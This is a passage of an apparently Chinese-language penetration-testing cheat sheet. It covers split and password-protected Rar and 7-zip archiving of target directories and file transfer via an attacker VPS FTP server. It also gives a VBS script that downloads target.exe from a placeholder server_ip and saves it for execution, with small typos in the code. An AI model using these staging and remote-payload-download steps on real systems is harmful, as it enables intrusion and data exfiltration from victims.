 - 分卷压缩/解压

```
压缩
Rar.exe a -m0 -r -v20m E:\test.rar E:\API

解压
Rar.exe x E:\test.part01.rar e:\xl
```

####7-zip

- 普通压缩

```
压缩
7z.exe a -r -p12345 E:\webs\1.7z e:\webs

解压
7z.exe x -p12345 E:\webs\1.7z -oE:\x
```

- 分卷压缩

```
压缩
7z.exe -r -vlm -padmin a e:\test.7z E:\API

解压
7z.exe x -padmin E:\test.7z.001 -oE:\xl
```

### 上传和下载

- Ftp上传

```
本地vps搭建ftp服务传输
```
- VBS上传

```
1.输入命令
    Set Post=CreateObject("Msxm12.XMLHTTP")>>downloads.vbs
    set shell = CreateObject("Wscript.Shell")
    Post.OPen "GET","http://server_ip/target.exe",0
    Post.Send()
    Set aGet = CreateObject(ADODB.stream")
    aGet.Mode = 3
    aGet.Type = 1
    aGet.Open()
    aGet.Write(Post.responseBody)
    aGet.SaveToFile "c:\test\target.exe"
    
2.执行脚本
    Cscript download.vbs
```
